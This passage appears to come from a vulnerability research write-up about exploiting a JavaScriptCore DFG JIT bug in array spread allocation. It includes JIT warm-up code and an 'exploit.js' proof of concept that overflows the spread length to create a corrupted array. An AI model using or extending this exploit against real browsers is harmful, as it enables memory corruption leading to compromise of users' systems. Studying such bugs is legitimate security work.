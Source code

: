 My guess was that too much memory was being consumed when trying to allocate such a large array. In order to confirm this, I added a breakpoint to the JITed code by adding a call to `m_jit.breakpoint()` inside of the `compileNewArrayWithSpread` which adds an `int3` instruction to the JITed code.

After adding the breakpoint I found that it wasn't hit and then I decided to test a length of 0x20001. I then realized that the code wasn't even being compiled so I added more iterations to activate the DFG compiler

```javascript
function jitMe(array){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1 
  }
  return [...array]
}

let dummy = [1.1]
for(let i = 0; i < 60; i++){
  print(i)
  jitMe(dummy);
}

let a = []

let len = 0x20000001 

for(let i = 0; i < len; i++){
  a[i] = 1.1 
}

jitMe(a)
```

Testing the program as is still leads to the SIGKILL however, when testing with a smaller length, the breakpoint gets hit. At this point it still seems to me that JSC is running out of memory when trying to process that huge array.

In order to deal with this, I decided to allocate a smaller `a` array and then use the spread syntax to use it multiple times when creating the corrupted array resulting in the following exploit.js

```
function jitMe(array){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array]
}

let dummy = [1.1]
for(let i = 0; i < 100; i++){
  print(i)
  jitMe(dummy);
}

let a = []

let len = 0x20000010 / 0x10

for(let i = 0; i < len; i++){
  a[i] = 1.1
}

jitMe(a)

```
